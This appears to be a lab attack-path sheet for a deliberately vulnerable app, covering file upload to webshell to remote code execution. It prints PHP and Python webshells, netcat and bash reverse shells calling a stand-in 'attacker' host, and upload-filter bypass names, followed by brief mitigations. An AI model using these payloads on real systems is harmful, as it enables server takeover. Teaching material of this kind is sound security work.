

# Attack Path 6: File Upload → Webshell → RCE

## Overview
Unrestricted upload → webshell yükle → RCE.

## Mermaid Diagram


## Adım Adım Senaryo

1. **File upload'a .php shell yükle** (veya .py, .jsp, .aspx).
2. **Eriş**: `/uploads/shell.php?cmd=nc -e /bin/sh attacker 4444`.
3. **Shell al**.

## Vulnerable Endpoints
- `/vuln/upload` - Unrestricted file upload
- `/vuln/uploads/<filename>` - Serve uploaded files

## Example Webshells

### PHP Webshell
```php
<?php system($_GET['cmd']); ?>
```

### Python Webshell
```python
#!/usr/bin/env python3
import os
import cgi
print("Content-Type: text/html\n")
cmd = cgi.FieldStorage().getvalue('cmd', 'id')
print(f"<pre>{os.popen(cmd).read()}</pre>")
```

### One-liner Reverse Shell
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'"); ?>
```

## Bypass Techniques

### Extension Bypass
```
shell.php.jpg
shell.php%00.jpg
shell.pHp
shell.php5
shell.phtml
```

### Content-Type Bypass
```
Content-Type: image/jpeg
(with PHP content)
```

### Double Extension
```
shell.jpg.php
```

## Difficulty
**Easy**

## Mitigation
- Whitelist allowed extensions
- Check file magic bytes
- Rename uploaded files
- Store outside webroot
- Disable script execution in upload directory
